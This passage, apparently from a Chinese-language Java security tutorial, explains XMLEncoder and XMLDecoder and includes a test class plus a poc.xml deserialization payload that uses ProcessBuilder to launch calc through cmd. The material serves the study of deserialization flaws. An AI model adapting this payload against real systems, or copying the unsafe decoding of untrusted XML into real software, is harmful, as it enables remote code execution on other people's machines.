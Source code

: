 example:

```bash
XMLEncoder e = new XMLEncoder(
                    new BufferedOutputStream(
                        new FileOutputStream("Test.xml")));
e.writeObject(new JButton("Hello, world"));
e.close();
```

Constructor and Method:

```bash
XMLEncoder(OutputStream out)
//Creates a new XML encoder to write out JavaBeans to the stream out using an XML encoding.
//...

void writeObject(Object o)
//Write an XML representation of the specified object to the output.
```

### 2.2 XMLDecoder 反序列化测试

测试类：

```bash
package XmlDecoder;

import java.beans.XMLDecoder;
import java.io.BufferedInputStream;
import java.io.FileInputStream;
import java.io.FileNotFoundException;

public class XmlDecoderTest {
    public static void main(String[] args) throws FileNotFoundException {
        XMLDecoder xmlDecoder = new XMLDecoder(new BufferedInputStream(new FileInputStream("C:\\code\\javacode\\java-sec\\src\\main\\java\\XmlDecoder\\poc.xml")));
        Object o = xmlDecoder.readObject();
        xmlDecoder.close();
    }
}
```

测试 poc.xml

```bash
<java version="1.4.0" class="java.beans.XMLDecoder">
    <void class="java.lang.ProcessBuilder">
        <array class="java.lang.String" length="3">
            <void index="0">
                <string>cmd</string>
            </void>
            <void index="1">
                <string>/C</string>
            </void>
            <void index="2">
                <string>calc</string>
            </void>
        </array>
        <void method="start"/></void>
</java>
```
